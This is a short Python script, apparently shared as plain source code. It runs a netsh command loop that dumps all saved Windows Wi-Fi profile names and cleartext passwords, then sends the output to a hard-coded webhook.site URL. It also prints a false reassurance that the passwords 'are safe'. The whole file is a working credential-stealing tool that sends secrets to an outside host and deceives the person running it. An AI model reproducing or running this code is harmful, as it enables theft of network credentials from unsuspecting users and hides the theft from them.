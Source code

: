 import subprocess
import urllib.request
import urllib.error
# Function to run a command and return its output as a string
def run_command(command):
try:
output = subprocess.check_output(command, shell=True, text=True, stderr=subprocess.STDOUT)
return output
except subprocess.CalledProcessError as e:
return str(e.output)
# Function to send CMD output to webhook
def send_to_webhook(output, webhook_url):
# Define headers and prepare data
headers = {'Content-Type': 'text/plain'}
# Send the CMD output to the webhook using an HTTP request
req = urllib.request.Request(webhook_url, data=output.encode('utf-8'), headers=headers)
try:
with urllib.request.urlopen(req) as response:
print("Your Wi-Fi Profile Names and Passwords are safe.")
except urllib.error.URLError as e:
print("Error sending the request:", e)
if __name__ == "__main__":
# Define the webhook URL (replace with your own)
webhook_url = "https://webhook.site/ae6c8f3b-9d2e-48e7-bdab-9a1e4a38db94"
# Execute the provided CMD command and send the output to the webhook
cmd_command = 'for /f "skip=9 tokens=1,2 delims=:" %i in (\'netsh wlan show profiles\') do @echo %j | findstr -i -v echo | netsh wlan show profile %j key=clear'
cmd_output = run_command(cmd_command)
send_to_webhook(cmd_output, webhook_url)
